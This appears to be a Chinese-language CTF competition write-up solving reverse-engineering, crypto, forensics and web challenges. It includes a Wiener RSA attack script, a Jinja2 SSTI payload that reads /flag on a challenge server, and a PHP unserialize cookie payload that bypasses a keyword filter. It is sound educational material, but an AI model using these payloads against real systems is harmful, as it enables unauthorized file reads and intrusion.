

RE
hello word
拖到IDA中查看，打开sub_40156F函数
对此代码分析，a1为输入的字符串，查看byte_403020和aIsEasyRight。
写一个python脚本推出a1。
得到Flag
non_name
1、拖进IDA分析代码

可以看见调用了函数 sub_401530后，就出现了flag的字符串，由此猜测这是个关键函数。
2、双击进入该函数：

dword_407044是用于存储用户输入的东西，dword_403010、dword_40703E是已知的数组。
分别查看各个地址存的东西：


3、分析循环
结合循环可知应该是个四元一次方程组，dword_403010中存的是方程系数，dword_40703E中存的是常数项。于是百度找四元一次方程组计算器，计算可得解

再转成16进制套上cumtctf{}提交即可。
Crypto
Classical
1、合理猜测是古典密码
拿到题目文件，打开是一长串字符，结合题目名字猜测是古典密码。而古典密码就三种，尝试过后，猜测是vigenere密码。
2、用工具进行解密
由于不知道密钥，所以选择vigenere爆破，得到：
There are moments in life when you miss someone so much that you just want to pick them from your dreams and hug them for real! Dream what you want to dream;go where you want to go;be what you want to be,because you have only one life and one chance to do all the things you want to do.May you have enough happiness to make you sweet,enough trials to make you strong,enough sorrow to keep you human,enough hope to make you happy? Always put yourself in others’shoes.If you feel that it hurts you,it probably hurts the other person, too.The happiest of people don’t necessarily have the best of everything;they just make the most of everything that comes along their way.Happiness lies for those who cry,those who hurt, those who have searched,and those who have tried,for only they can appreciate the importance of people.who have touched their lives.Love begins with a smile,grows with a kiss and ends with a tear.The brightest future will always be based on a forgotten past, you can’t go on well in lifeuntil you let go of your past failures and heartaches.And in the end, I am glad to tell you the CUMTCTF is EnjoyTheVigenereCipher.By the way, remember to use braces before submitting.
这样一段文字，阅读后得到flag为CUMTCTF{EnjoyTheVigenereCipher}。
ezRSA
网上无法对题目给出的n进行分解，百度找到脚本直接分解可得：

'''
Created on Dec 14, 2011
@author: pablocelayes
'''
import ContinuedFractions, Arithmetic, RSAvulnerableKeyGenerator
import binascii
import codecs
def hack_RSA(e,n):
'''
Finds d knowing (e,n)
applying the Wiener continued fraction attack
'''
frac = ContinuedFractions.rational_to_contfrac(e, n)
convergents = ContinuedFractions.convergents_from_contfrac(frac)
for (k,d) in convergents:
#check if d is actually the key
if k!=0 and (e*d-1)%k == 0:
phi = (e*d-1)//k
s = n - phi + 1
# check if the equation x^2 - s*x + n = 0
# has integer roots
discr = s*s - 4*n
if(discr>=0):
t = Arithmetic.is_perfect_square(discr)
if t!=-1 and (s+t)%2==0:
# print("Hacked!")
return d
# TEST functions
def test_hack_RSA():
# print("Testing Wiener Attack")
times = 5
while(times>0):
e,n,d = RSAvulnerableKeyGenerator.generateKeys(1024)
# print("(e,n) is (", e, ", ", n, ")")
# print("d = ", d)
hacked_d = hack_RSA(e, n)
if d == hacked_d:
# print("Hack WORKED!")
pass
else:
# print("Hack FAILED")
pass
# print("d = ", d, ", hacked_d = ", hacked_d)
# print("-------------------------")
times -= 1
if __name__ == "__main__":
n = 460657813884289609896372056585544172485318117026246263899744329237492701820627219556007788200590119136173895989001382151536006853823326382892363143604314518686388786002989248800814861248595075326277099645338694977097459168530898776007293695728101976069423971696524237755227187061418202849911479124793990722597
e = 354611102441307572056572181827925899198345350228753730931089393275463916544456626894245415096107834465778409532373187125318554614722599301791528916212839368121066035541008808261534500586023652767712271625785204280964688004680328300124849680477105302519377370092578107827116821391826210972320377614967547827619
c = 235079473042454099807116076488262740135383858230967099540307826273199444131724945298259060669497025680602868465015609167157760611830665379910856647739895018654389167886359502125262006498872925841789249028759026079722290718145036644959479543255350040619949567107916725017078853648984759794085772688267388901151
#test_is_perfect_square()
d = 8264667972294275017293339772371783322168822149471976834221082393409363691895
m = pow(c,d,n)
def num2str(num):
tmp = hex(num)[2:].replace("L","")
if(len(tmp))%2 ==0:
return codecs.decode(tmp, encoding='hex')
else:
return codecs.decode(("0"+tmp), encoding='hex')
# print("-------------------------")
print(str(num2str(pow(c,hack_RSA(e,n),n)), encoding='utf8'))
依次运行得到d，然后稍微改下代码运行得到flag。

Misc
出个伪web吧
拿到文件后

看到这个文件最近修改过，依次跟入


发现flag。
出个文档吧
打开文档发现一个空白文字，猜测应该有隐藏的文本，显示隐藏编辑标记找到flag。

Sign In
打开文件
base64解码，得到brainfuck编码https://tool.bugku.com/brainfuck/?wafcloud=1解码即可
出个流量分析吧
wires hark打开后，发现http请求很多
导出http对象，发现flag文件
导出后base64解码即可
出个LSB吧
用Stegsolve打开，将所有lsb有效位调为0，发现png图片，导出为二维码，扫描即可
出个内存取证吧
volatility imageinfo -f memory.img
测试后第二个可以 Win2003SP1x86
volatility -f memory.img –profile=Win2003SP1x86 filescan | grep flag
导出文件
volatility -f memory.img –profile=Win2003SP1x86 dumpfiles -Q 0x000000000484f900 -D ./
得到二维码扫描
jfXvUoypb8p3zvmPks8kJ5Kt0vmEw0xUZyRGOicraY4=
查看窗口
volatility -f memory.img –profile=Win2003SP1x86 windows
flag.png 是由 explorer.exe 进程里的 Windows 图片查看器打开的
dumpexplorer.exe 进程
volatility -f memory.img –profile=Win2003SP1x86 memdump -p 1992 -D ./
对导出的文件foremost分离
得到图片
所以之前得到的是aes 加密
密文：jfXvUoypb8p3zvmPks8kJ5Kt0vmEw0xUZyRGOicraY4=
key: Th1s_1s_K3y00000
iv: 1234567890123456
出个压缩包吧
打开有个txt，内容是flag is not here
放到hxd
发现隐藏文件
将7A改为74即可分离出图片
将图片后缀改为gif，ps打开，分离出另一个图层，放进Stegsolve，看到另一半二维码
ps拼凑一起扫描即可
web
babyflask
ssti，过滤了中括号，用__getitem__绕过
payload
http://202.119.201.199:9001/%7B%7B''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/flag').read()%7D%7Ddoge
打开网页，查看源代码，发现一大堆颜表情，用aaencode解码，发现还有加密，再用Unicode解码，最终得到源代码
var isBegin = false;
function numRand() {
var x = 9999;
var y = 1000;
var rand = parseInt(Math.random() * (x - y + 1) + y);
return rand;
}
function isPrimeNum(num) {
return !/^.?$|^(..+?)\1+$/.test(Array(num + 1).join('1'))
}
function check(num) {
if (isPrimeNum(num)) {
$.ajax({
url: 'check.php',
type: 'POST',
data: 'num=' + num,
success: function (data) {
alert(data);
}
})
} else {
alert( 'It seems t'
+'hat you are'
+' not lucky '
+'enough, ple'
+'ase keep tr'
+'ying.')
}
}
$(function () {
var u = 265;
$('.btn').click(function () {
if (isBegin) return false;
isBegin = true;
$(".num").css('background-position', '11px 0');
var result = numRand();
var num_arr = (result + '').split('');
$(".num").each(function (index) {
var _num = $(this);
var yPos = (u * 60) - (u * num_arr[index]);
setTimeout(function () {
_num.animate({
backgroundPosition: '11px ' + yPos + 'px'
}, {
duration: 6000 + index * 3000,
easing: "easeInOutCirc",
complete: function () {
if (index == 3) {
isBegin = false;
check(result);
}
}
});
}, index);
});
});
});发现每次摇都是向check.php发个数字，看到isPrimeNum（）函数要求num是质数，burpsuite抓包然后发一个num质数就得到flag
hodor

得到源码
<?php
Class Source {
public function __toString() {
return highlight_file('license.txt', true).highlight_file($this->source, true);
}
}
function easy_check($str) {
//echo $str;
if (preg_match("/flag/i", $str, $matches)) {
return false;
}
return true;
}
if(isset($_GET['source'])){
$s = new Source();
$s->source = __FILE__;
echo $s;
exit;
}
$todos = [];
if(isset($_COOKIE['todos'])){
if(!easy_check($_COOKIE['todos'])) {
echo "Hacker!\n";
} else {
$c = $_COOKIE['todos'];
$h = substr($c, 0, 32);
$m = substr($c, 32);
if(md5($m) === $h){ //这里只需将反序列化的字符串32位md5加密，再加上原字符串即可
$todos = unserialize($m);
}
}
}
if(isset($_POST['text'])){
$todo = $_POST['text'];
$todos[] = $todo;
$m = serialize($todos);
$h = md5($m);
setcookie('todos', $h.$m);
header('Location: '.$_SERVER['REQUEST_URI']);
exit;
}
// flag is in flag.php
?>
<?php foreach($todos as $todo):?>
<li><?=$todo?></li>
<?php endforeach;?> 只需要控制source的值即可
<?php
Class Source{
public function __toString()
{
return highlight_file('license.txt', true).highlight_file($this->source, true);
}
}
$s = new Source();
$s->source = "flag.php";
$s = [$s];
echo serialize($s); //a:1:{i:0;O:6:"Source":1:{s:6:"source";s:8:"flag.php";}}
?>但是还是check了flag字符串，payload中不能出现flag
有个小trick
string 型数据的序列化
s:
<length>:”<value>“;其中
<length>是<value>的长度，<length>是非负整数，数字前可以带有正号（+）。<value>为字符串值，这里的每个字符都是单字节字符，其范围与 ASCII 码的 0 - 255 的字符相对应。每个字符都表示原字符含义，没有转义字符，<value>两边的引号（””）是必须的，但不计算在<length>当中。这里的相当于一个字节流，而 <length>是这个字节流的字节个数。S:
<length>:”<value>“;其中
<length>是源字符串的长度，而非<value>的长度。<length>是非负整数，数字前可以带有正号（+）。<value>为经过转义之后的字符串。它的转义编码很简单，对于 ASCII 码小于 128 的字符（但不包括 \），按照单个字节写入（与 s 标识的相同），对于 128~255 的字符和 \ 字符，则将其 ASCII 码值转化为 16 进制编码的字符串，以 \ 作为开头，后面两个字节分别是这个字符的 16 进制编码，顺序按照由高位到低位排列，也就是第 8-5 位所对应的16进制数字字符（abcdef 这几个字母是小写）作为第一个字节，第 4-1 位作为第二个字节。依次编码下来，得到的就是
<value>的内容了。
所以将s改为S，flag.php用16进制\66\6c\61\67\2e\70\68\70表示
cookie在存储时，存储的是url编码后的数据，调用cookie时，会先进行url解码，所以将payload先url编码一次
最终payload
todos=a170de677c96a2097c4d580cea16e0cba:1:%7Bi:0;O:6:%22Source%22:1:%7Bs:6:%22source%22;S:8:%22%5C66%5C6c%5C61%5C67%5C2e%5C70%5C68%5C70%22;%7D%7D加在cookie中提交即可